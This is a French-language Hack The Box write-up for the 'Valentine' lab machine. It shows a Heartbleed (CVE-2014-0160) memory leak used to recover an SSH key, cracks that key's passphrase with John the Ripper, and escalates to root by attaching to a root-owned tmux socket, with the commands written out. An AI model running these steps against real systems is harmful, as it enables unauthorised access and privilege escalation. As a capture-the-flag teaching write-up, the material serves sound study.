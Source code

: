 ```yaml
---
title: "Valentine.htb — Exploitation de la vulnérabilité Heartbleed"
date: 2025-08-04
draft: false
tags: ["HTB", "CTF", "Heartbleed", "Linux", "PrivEsc"]
categories: ["CTF"]
---
```


## 🧠 Résumé

La machine `Valentine.htb` (Hack The Box) est une box de difficulté *Facile* exposant une vulnérabilité historique : **Heartbleed**. Grâce à une fuite de mémoire TLS, nous récupérons une clé privée chiffrée, que nous déchiffrons pour établir une connexion SSH. L’escalade de privilèges repose sur un processus `tmux` persistant lancé par root.

---

## 🔍 Phase de Reconnaissance

```bash
# Scan initial TCP full range
nmap -p- -sS -T4 valentine.htb

# Scan ciblé avec détection de version
nmap -p 22,80,443 -sC -sV valentine.htb
```

**Ports ouverts :**
- 22/tcp — SSH (OpenSSH 5.9p1 Debian)
- 80/tcp — HTTP (Apache 2.2.22)
- 443/tcp — HTTPS (Apache 2.2.22 avec SSL vulnérable)

---

## 🌐 Analyse Web

- Le port `80` affiche un logo et redirige vers `https://valentine.htb`.
- Une image `omg.jpg` est disponible mais ne contient rien de concluant en steganographie (`steghide`, `stegseek`).
- Un fichier `notes.txt` évoque un encoder/decoder côté client, en construction.

---

## ❤️ Exploitation Heartbleed (CVE-2014-0160)

Le service HTTPS utilise OpenSSL vulnérable :

```bash
nmap -p 443 --script ssl-heartbleed valentine.htb
```

Résultat :
```
State: VULNERABLE
```

Exploitation automatisée via script `heartbleed-exploit.py` :

```bash
python2 heartbleed-exploit.py valentine.htb --output dumps/out_001.txt --ascii
```

**Données récupérées :**
- Une clé au format hex : `hype_key`
- Convertie en PEM avec :
```bash
xxd -r -p hype_key > hype_key.pem
```

**Déchiffrement avec John the Ripper :**

```bash
ssh2john hype_key.pem > hype_key.hash
john hype_key.hash --wordlist=rockyou.txt
```

Mot de passe trouvé : `heartbleedbelievethehype`

---

## 🔐 Accès SSH

```bash
chmod 600 hype_key.pem
ssh -i hype_key.pem hype@valentine.htb
```

---

## 🔎 Post-Exploitation

### Fichier `.bash_history`

```bash
cat ~/.bash_history
```

Contient :
```bash
tmux -S /.devs/dev_sess
tmux a -t dev_sess
```

### Processus tmux (root)

```bash
ps aux | grep tmux
```

```bash
root       1040  0.0  0.1  26416  1672 ? Ss 01:24   0:00 /usr/bin/tmux -S /.devs/dev_sess
```

On peut l’attacher :

```bash
tmux -S /.devs/dev_sess attach
```

Et on obtient une session root. 🎉

---

## 🏁 Conclusion

Une machine pédagogique exploitant une faille emblématique. Elle montre :

- la dangerosité d'une vulnérabilité SSL
- l'intérêt de `bash_history`
- et l’importance de surveiller les processus persistants (comme `tmux`) pour l’escalade de privilèges

